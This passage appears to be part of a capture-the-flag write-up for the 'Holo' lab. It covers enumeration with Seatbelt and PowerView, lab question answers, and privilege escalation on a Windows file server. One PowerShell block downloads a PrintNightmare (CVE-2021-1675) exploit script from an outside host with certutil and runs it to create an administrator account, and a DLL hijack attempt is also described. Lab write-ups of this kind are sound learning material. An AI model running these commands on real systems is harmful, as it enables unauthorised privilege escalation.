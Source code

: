 * For situational awareness, we can use the ```Seatbelt``` tool; instead of building the app file, we can use precompiled binaries.

* We can run ```Seatbelt``` after transferring the .exe file to PC-FILESRV01; move it to one of the paths given above, where it is allowed to run.

* We can use ```PowerView``` after this to enumerate users & groups in system.

* ```Find-LocalAdminAccess``` command (part of PowerView module) shows that we have local admin access to S-SRV01.holo.live

```markdown
1. What anti-malware product is employed on PC-FILESRV01? - AMSI

2. What anti-virus product is employed on PC-FILESRV01? - Windows Defender

3. What CLR version is installed on PC-FILESRV01? - 4.0.30319

4. What PowerShell version is installed on PC-FILESRV01? - 5.1.17763.1

5. What Windows build is PC-FILESRV01 running on? - 17763.1577
```

## Privilege Escalation - 2

```ps
dir C:\Users\watamet\Applications
#contains the odd exe file

Get-ScheduledTask -TaskPath "\Users\*"
#should include the exe

#we can try the DLL hijacking method
#by creating kavremoverENU.dll
#but it does not work

#try PrintNightmare exploit
certutil.exe -urlcache -f http://10.50.109.20/CVE-2021-1675.ps1 CVE-2021-1675.ps1

Import-Module .\CVE-2021-1675.ps1

Invoke-Nightmare -NewUser "sv" -NewPassword "password123"

net user sv
#shows that it is part of Administrators group
```

* We are able to find an application 'kavremover.exe' in the user's Applications folder, and it is supposed to be a scheduled task but it does not show up as one.

* Either way we can proceed with DLL hijacking technique for privesc.

* For the vulnerable app we found, there are a few reference guides that can be followed for DLL hijacking - but those do not work for some reason.
